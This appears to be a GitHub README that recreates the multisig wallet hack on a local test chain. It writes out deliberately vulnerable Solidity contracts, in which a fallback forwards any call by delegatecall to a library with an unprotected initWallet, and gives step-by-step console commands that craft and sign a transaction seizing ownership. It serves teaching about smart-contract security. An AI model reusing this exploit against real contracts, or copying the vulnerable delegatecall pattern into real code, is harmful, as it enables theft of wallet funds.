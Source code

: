# Multi-Sig-Wallet-Attack
Simplified recreation of the multisig wallet hack.

#### This command is going to set up a new project with Truffles directory structure. 

```bash
$ truffle init
```

#### Initialise a package.json file.

```bash
$ npm init -y
```

#### This package we install is to help create transactions.

```bash
$ npm i -S ethereumjs-tx
```

#### Creating a couple files that will store our contracts in.

```bash
$ touch contracts/Wallet.sol
$ touch contracts/WalletLibrary.sol
```

#### Creating a file for our deployment script.

```bash
$ touch migrations/2_deploy_wallets.js
```

#### Wallet.sol content.

```javascript
pragma solidity ^0.4.6;

contract Wallet {
    address public owner;
    address public _walletLibrary;

    function Wallet(address libAddress, address _owner) public {
        _walletLibrary = libAddress;
        _walletLibrary.delegatecall(bytes4(keccak256("initWallet(address)")), _owner);
    }

    function withdraw(uint amount) public returns (bool success) {
        return _walletLibrary.delegatecall(bytes4(keccak256("withdraw(uint)")), amount);
    }

    function () payable {
        _walletLibrary.delegatecall(msg.data);
    }
}
```

#### WalletLibrary.sol content.

```javascript
pragma solidity ^0.4.6;

contract WalletLibrary {
    address owner;

    function initWallet(address _owner) {
        owner = _owner;
    }

    function changeOwner(address _newOwner) external {
        if (msg.sender == owner) {
            owner = _newOwner;
        }
    }

    function () payable {}

    function withdraw(uint amount) external returns (bool success) {
        if (msg.sender == owner) {
            return owner.send(amount);
        } else {
            return false;
        }
    }
}
```

#### 2_deploy_wallets.js content.

```javascript
const WalletLibrary = artifacts.require("./WalletLibrary.sol");
const Wallet = artifacts.require("./Wallet.sol");

module.exports = function(deployer, network, accounts) {
  deployer
    .deploy(WalletLibrary)
    .then(() =>
      deployer.deploy(Wallet, WalletLibrary.address, accounts[0])
    );
};
```

#### truffle.js content.

```javascript
module.exports = {
  networks: {
    development: {
      host: "127.0.0.1",
      port: 8545,
      network_id: "*",
    }
  }
};
```

#### Starting our blockchain.

```bash
$ ganache-cli -u 0 
```

#### Deploy our contracts.

```bash
$ truffle migrate
```

#### Console for our blockchain client.

```bash
$ truffle console
```

#### Deployed contract instance.

```bash
truffle(development)> Wallet.deployed().then(w => wallet = w)
```

#### Check to see who the wallet owner is.

```bash
truffle(development)> wallet.owner.call()
```

## Now we'll start our attack

#### This give us the first 4 bytes of the hashed method for the method_id.

```bash
truffle(development)> data = web3.sha3('initWallet(address)').substring(0, 10)
```

#### Then we pass the param to our function. Params and variables are expected to be 32bytes by the EVM.

```bash
truffle(development)> data += '0'.repeat(24) + web3.eth.accounts[1].substring(2)
```

#### Now we're going to create the attack transaction.

```bash
truffle(development)> txParams = { 
  to: wallet.address, 
  from: web3.eth.accounts[1],
  gasPrice: web3.toHex(30000),
  gas: web3.toHex(1000),
  data: data,
  nonce: '0x0',
}
```

#### Import the Ethereumjs-tx package.

```bash
truffle(development)> EthTxt = require('ethereumjs-tx')
```

#### Create a new transaction instance.

```bash
truffle(development)> tx = new EthTxt(txParams)
```

#### Now we'll get our privateKey to sign the attack transaction.

```bash
truffle(development)> privateKey = Buffer.from(‘PRIVATE_KEY_OF_ATTACKER_ADDRESS’, ‘hex’)
```

#### Now we'll sign the transaction with our private key.

```bash
truffle(development)> tx.sign(privateKey)
```

#### Now we'll send the transaction

```bash
truffle(development)> web3.eth.sendRawTransaction(`0x${tx.serialize().toString('hex')}`)
```

#### Lets take a look at our owner.

```bash
truffle(development)> wallet.owner.call()
```

#### Now we can see that the attacker has successfully set themselves as the owner, giving them complete control over the wallet and all of its functionality. Done!
